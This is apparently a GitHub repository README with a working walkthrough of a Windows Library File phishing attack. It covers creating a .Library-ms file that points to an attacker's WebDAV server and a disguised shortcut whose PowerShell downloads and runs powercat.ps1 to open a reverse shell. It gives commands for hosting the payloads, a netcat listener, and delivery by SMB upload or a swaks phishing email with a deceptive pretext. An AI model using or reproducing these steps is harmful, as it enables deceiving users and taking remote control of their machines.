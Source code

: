 This repo contains instructions on how to perform a Windows Library File phishing attack.

## Creating Windows Library File

This file, once opened, will point the target machine to our WebDAV server (more on this later). In order to create this file we will execute either of the `winlib_gen` scripts included in this repo.

## Creating a Malicious Shortcut File

Then we will need to create a shortcut file (*this needs to be done on a Windows Machine*):

- On a Windows machine: *right click on the desktop and select new -> shortcut*.

- *Insert the powershell commands* that `winlib_gen` prints *in the location field*.

This command will *request and invoke `powercat.ps1` from an address where we will be hosting it and then connect to our listener with a reverse shell*.

- Name the shortcut file whatever name is appropriate for your context (example security_update).

## Serving the Files

- We will *transfer the shortcut file to a folder in Kali and host it using WebDAV*:

```bash
wsgidav --host 192.168.45.187 --port 80 --auth anonymous --root .
```

- We will start a *Python3 HTTP server and host powercat.ps1*:

```bash
python3 -m http.server
```

- We will *start a netcat listener to catch the shell*:

```bash
nc -nlvp 4444
```

## Sending the Library File

### SMB - smbclient

We can now transfer `config.Library-ms` via smbclient to the target share and hopefully some user will open the file:

```bash
smbclient //192.168.50.195/sharename -c 'put config.Library-ms' -U 'user%pass'
```

If a user opens the file, we will get a reverse shell.

### Email - swaks

We can send a malicious email using the command-line SMTP tool `swaks`.

- This repo contains a *body.txt file containing an example pretext to encourage the victim* to open the attached library file.

- Then we build our swaks command:

```bash
sudo swaks -t user@domain.com -t user@domain.com --from user@domain.com --attach @config.Library-ms --server {Mailserver IP} --body @body.txt --header "Subject: Announcement" --suppress-data -ap
Username: user
Password: password
```

After a few moments, our WebDAV and Python3 servers will receive requests and our listener will grab a shell.
